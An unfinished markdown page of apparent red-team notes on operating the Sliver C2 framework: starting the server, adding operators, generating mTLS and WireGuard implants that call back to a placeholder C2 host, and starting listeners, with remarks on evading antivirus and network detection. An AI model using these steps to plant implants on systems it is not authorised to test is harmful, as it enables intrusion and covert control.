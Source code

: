 Sliver C2 is a powerful post-exploitation framework that can be used to establish a firm foothold on a device with an extensible interface that reminds the user of Meterpreter. It is detected out of the box by most AV solutions, as it is very popular, but it can be obfuscated and otherwise made to evade detection. 

Documentation can be found here: https://sliver.sh/docs

# Server
```shell
sliver-server # start the server
```

The server functions as a fully featured point of interaction, and it is not required to use the client at all if no multiplayer is going to be used. However, if multiple operators will need to interact with compromised hosts, multiplayer mode will need to be enabled, and configuration files will need to be generated. 

# Multiplayer
Multiplayer mode allows other users (players) to connect to the C2 via mTLS and operate implants simultaneously with the host. For multi-person engagements, this is preferable, and easy to set up. 

```shell
new-operator --name <operator short name> --lhost <C2 server IP>
```

>[!note] The C2 server IP must be accessible as described by the operator machine. Do not provide a local IP address. Domain names may or may not be permissible. Update when we know.

This will output a configuration file that the new player can store with the `import` command.

```shell
./sliver-client import <config file>
```

On startup, Sliver will ask which server config the operator would like to use, and connect them into the C2 server.
# Implant Generation
All of the implants generation is taken care of by the `generate` command. Sliver supports HTTP, DNS, WireGuard, TCP, and mTLS callbacks for both sessions and beacons. While these can be used for evasion, mTLS is a safer bet for avoiding NIDS because of its builtin and thorough encryption both directions. 

```bash
generate --mtls <FQDN of C2:port> --os <target operating system> --arch <target CPU architecture> --save <local save location> # generate an mTLS session sliver

generate beacon --wg <FQDN of C2:port> --os <target operating system> --arch <target CPU architecture> # generate a WireGuard beacon sliver
```

Sliver also supports multiple protocols per implant, with it defaulting between them in this order: mTLS -> WireGuard -> HTTP(S) -> DNS.

You must individually start jobs receiving new connections for each protocol

```bash
mtls # start an mTLS listener
dns # start a DNS listener
# etc...
```

# Implant Usage
TODO: Fill this out
# Armory
TODO: Give more details on loading armory modules and how to use them effectively.
